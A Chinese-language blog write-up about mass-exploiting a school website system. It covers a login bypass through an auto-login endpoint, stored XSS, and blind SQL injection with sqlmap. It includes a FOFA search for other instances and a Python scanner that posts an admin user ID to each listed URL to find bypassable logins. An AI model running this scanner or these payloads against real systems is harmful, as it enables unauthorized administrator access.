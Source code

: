 ```yaml
---
title: 记一次校园网站漏洞通杀
date: 2024-10-08 18:45
cover: true
sidebar: []
readmore: true
tags: 
- 公众号推文
- Web安全
categories:
- 公众号推文
---
```

# 01 漏洞挖掘
## Part.01

**逻辑缺陷**

熟悉的页面，熟悉的弱口令测试，但无果
![images](/images/edu-vuln-mining-record/1.png)
我就把目光转向js审计，果不其然有新发现，可以根据账号自动登录
![images](/images/edu-vuln-mining-record/2.png)
于是直接构造请求绕过登录
![images](/images/edu-vuln-mining-record/3.png)
经典的管理员权限

## Part.02
**存储型xss**
寻找文本输入
![images](/images/edu-vuln-mining-record/4.png)
浅析： 前端：这里的标签都是普通标签，没有像RCDATA元素(RCDATA elements)，有<textarea>和<title>，会做一次HTML编码，所以可以直接插入危险的js代码。 后端：没有任何过滤（笑~

![images](/images/edu-vuln-mining-record/5.png)

所以就简单了，直接插入<script>alert('1')</script>即可
![images](/images/edu-vuln-mining-record/6.png)

## Part.03
**SQL注入**
![images](/images/edu-vuln-mining-record/7.png)
测试无果
![images](/images/edu-vuln-mining-record/8.png)
最后发现注入点在第一个函数，果然任何一个输入点都是不安全的，是布尔型盲注
![images](/images/edu-vuln-mining-record/9.png)
后面就是经典Sqlmap了
![images](/images/edu-vuln-mining-record/10.png)

# 02 继续通杀

根据系统指纹在fofa上搜索："xx系统" && icon_hash="11xxxx" 有32个IP，看了下，有重复的
![images](/images/edu-vuln-mining-record/11.png)
使用fofa_viewer导出目标 这里我根据第一个逻辑漏洞的漏洞指纹信息，写了一个poc

```python
import requests


def poc(url):
    poc_url = url + '/login/doautologin.edu'
    data = {'um.userid': "admin"}
    try:
        res = requests.post(poc_url, data=data, timeout=5)
        if (res.headers.get("Set-Cookie")): # 登录成功就会set-cookie
            print(url + '/login.html')
    except BaseException:  
        pass


if __name__ == '__main__':
    with open('url.txt', 'r') as f:
        for i in f:
            poc(i.rstrip('\n'))
```



# 03 思考总结

**01.**在访问系统当中的时候F12查看源码是一个不错的习惯（尤其是有前端弹框的）



**02.**前端代码的一切展示行为完全可控(一定要理解这句话) 



**03.**了解程序的底层逻辑，你才能更清晰的知道每一个参数的意义



